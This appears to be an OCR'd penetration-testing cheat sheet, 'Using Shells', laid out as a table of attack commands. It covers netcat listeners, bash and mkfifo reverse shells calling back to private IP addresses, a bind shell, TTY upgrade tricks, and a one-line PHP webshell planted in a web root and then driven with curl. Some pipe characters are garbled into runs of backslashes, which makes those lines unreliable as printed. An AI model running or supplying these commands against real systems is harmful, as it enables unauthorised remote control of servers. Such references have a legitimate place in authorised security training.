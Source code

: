 ## Using Shells

| **Command** | **Description** |
| --- | --- |
| `nc -lvnp 1234` | Start a nc listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\\\\\\\\\\\\\|/bin/sh -i 2>&1\\\\\\\\\\\\\\|nc 10.10.14.3 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\\\\\\\\\\\\\|/bin/bash -i 2>&1\\\\\\\\\\\\\\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z then stty raw -echo then fg then enter twice` | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| `script /dev/null bash` | Establish shell from nc listener |